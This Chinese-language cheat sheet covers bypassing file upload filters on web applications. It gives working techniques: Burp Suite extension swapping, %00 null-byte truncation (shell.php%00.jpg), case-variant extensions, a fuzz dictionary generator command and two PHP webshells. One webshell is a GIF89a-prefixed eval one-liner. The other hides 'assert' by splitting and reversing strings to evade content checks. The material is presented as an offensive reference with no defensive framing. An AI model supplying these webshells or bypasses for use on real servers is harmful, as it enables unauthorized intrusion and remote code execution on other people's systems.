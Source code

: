 ## 文件上传漏洞

前端策略不做考虑，一般使用`burpsuite`抓包修改绕过。
比如上传一个`.gif`文件，再进行抓包修改成.php 文件上传。

## 绕过方式

首先判断是程序员自己写的上传点，还是编辑器的上传功能。

- 如果是编辑器上传功能，上网查找当前编辑器的漏洞。
- 如果是写的上传点 上传一个正常的 jpg 图片 查看上传点是否可用 上传一个正常的 jpg 图片，burp 拦截，修改后缀为 php (可以检测前端验证 MIME 检测 文件内容检测 后缀检测) 上传一个正常的 jpg 图片，burp 拦截， 00 截断 1.php%00.jpg 判断服务器是什么类型，web 服务器程序，是什么类型，版本号多少 利用解析漏洞。

### MIME 检测 文件头 content-type 字段校验

面对这方式，一般都可以把木马改成.gif 上传。

在使用一句话木马的时候，也可以在前后混淆图片。

#### PHP %00 截断

PHP<5.3.4 时 shell.php%00.jpg 可截断%00 后的内容，配合服务器中间件解析漏洞绕过。

### 文件扩展名黑名单校验

一般情况下都可以使用大小写或者其他方式绕过比如:

```bash
.pHp .AsP .phpphp
```

#### fuzz 脚本

使用[upload-fuzz-dic-builder](https://github.com/c0ny1/upload-fuzz-dic-builder) 工具生成 fuzz 字典，并且导入`burpsuite`中使用是比较方便的，并且生成时给的上传点相关信息越详细，生成的字典越精确。

比如：上传文件名为：test，可以上传后缀为 jpg，后端语言为 php，中间件为 apache，操作系统为 Windows，输出字典名为 upload_filename.txt 的 fuzz 字典

```bash
python upload-fuzz-dic-builder.py -n test -a jpg -l php -m apache --os win -o upload_file.txt
```

### 检测内容是否合法或含有恶意代码

通过开头的文件幻数进行检测：判断文件开头的前 10 个字节，基本就能判断出一个文件的真实类型

文件格式幻数（magic number），它可以用来标记文件或者协议的格式

大部分文件的文件幻数都含有不便于输入的特殊字符，而 gif 图的文件幻数为 GIF89a，可以方便地利用

```php
GIF89a <image binary data> <?php @eval($_POST['shell']);?> <image binary data>
```

也可以使用变量名代替函数

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b);
@$c($_POST['shell']);
?>
```

### 其他资料

[yinwc](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#/%E5%88%A9%E7%94%A8RTLO)
[狼组](https://wiki.wgpsec.org/knowledge/web/fileuploads.html)
